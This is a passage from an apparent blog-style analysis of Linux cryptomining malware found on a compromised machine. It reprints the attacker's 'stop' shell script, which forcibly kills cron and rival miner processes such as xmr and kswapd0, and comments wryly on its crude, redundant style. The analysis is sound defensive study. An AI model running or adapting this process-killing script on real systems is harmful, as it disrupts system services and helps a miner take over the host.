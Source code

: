 Look at that!  Even malicious code ships with commented out lines!

Here again everything is simple.  We try to stop previous instances, sleep for
a bit to let everything calm down, and then start one of two scripts.
`./anacron` (which obviously isn't anacron) wasn't shipped, but we do have
`./kswapd0`.  Firstly, though, let's look at `./stop`:

```bash
#!/bin/sh
pkill -9 cron
killall -9 cron
kill -9 `ps x|grep cron|grep -v grep|awk '{print $1}'`>.proc

pkill -9 kswapd0
killall -9 kswapd0
kill -9 `ps x|grep kswapd0|grep -v grep|awk '{print $1}'`>.proc


pkill -9 ld-linux
killall -9 ld-linux
kill -9 `ps x|grep ld-linux|grep -v grep|awk '{print $1}'`>.proc

pkill -9 Donald
killall -9 Donald
kill -9 `ps x|grep Donald|grep -v grep|awk '{print $1}'`>.proc

pkill -9 xmr
killall -9 xmr
kill -9 `ps x|grep xmr|grep -v grep|awk '{print $1}'`>.proc

pkill -9 xm64
killall -9 xm64
kill -9 `ps x|grep xm64|grep -v grep|awk '{print $1}'`>.proc
rm -rf .proc
```

Oops.  They don't know if we have `pkill` or `killall`.  So here are three
redundant copy-pasted ways to kill lets of things.  The third line should always
work, since it only depends on `ps`, which is POSIX, so the other two are
pointless.  It's rather crude, and written by someone who doesn't like spaces:
`ps x` prints the processes, then one `grep` filters them, another grep (!) filters
out the first grep instance (which will also match, because `|` is a *stream* so
`ps` is still running when `grep` starts its work) and then `awk` gets the pid.
This is saved to a file we promptly remove, which is odd enough, but haven't
they just leaked the names of a bunch of dodgy executables?  Including one
called `Donald`, which is weird enough.  I wonder which Donald that could be?
Probably Donald Duck.

Also, DRY, Russian hackers.

`file kswapd0` tells us it's a binary, so we'll come back to that one.

### 'Obfuscated' Portugese Perl

